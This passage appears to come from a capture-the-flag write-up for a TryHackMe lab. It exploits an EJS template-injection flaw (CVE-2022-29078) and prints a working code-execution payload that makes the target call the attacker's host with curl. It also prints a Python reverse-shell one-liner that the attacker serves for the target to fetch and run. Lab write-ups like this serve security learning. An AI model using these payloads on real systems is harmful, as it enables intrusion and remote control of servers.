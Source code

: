 As mentioned earlier, only a limited number of options are allowed to be passed with data. However, this is where the `CVE-2022-29078` vulnerability becomes relevant. By exploiting the `settings['view options']` parameter, we are able to pass any option without restriction.  

Certain options, like `outputFunctionName`, are utilized by **EJS** without any input sanitization to build the template body, allowing us to inject code.

For more details on the vulnerability and a **PoC** (Proof of Concept), you can refer to this article [here](https://eslam.io/posts/ejs-server-side-template-injection-rce/).

By testing the **PoC** payload from the article, we confirm its effectiveness, as we receive a request on our server.

```
settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('curl 10.11.72.22');s
```
{: .wrap }

![Web 80 Admin Settings Seven](/images/tryhackme_whiterose/web_80_admin_settings7.webp){: width="1000" height="500" }

```console
10.10.116.77 - - [31/Oct/2024 05:03:44] "GET / HTTP/1.1" 200 -
10.10.116.77 - - [31/Oct/2024 05:03:44] "GET / HTTP/1.1" 200 -
10.10.116.77 - - [31/Oct/2024 05:03:45] "GET / HTTP/1.1" 200 -
```
At this point, we can use the vulnerability to obtain a shell. First, we set up our web server to serve a reverse shell payload. This allows us to execute the payload remotely and gain access to the system.

```console
$ cat index.html
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.11.72.22",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'                                     

$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```
{: .wrap }
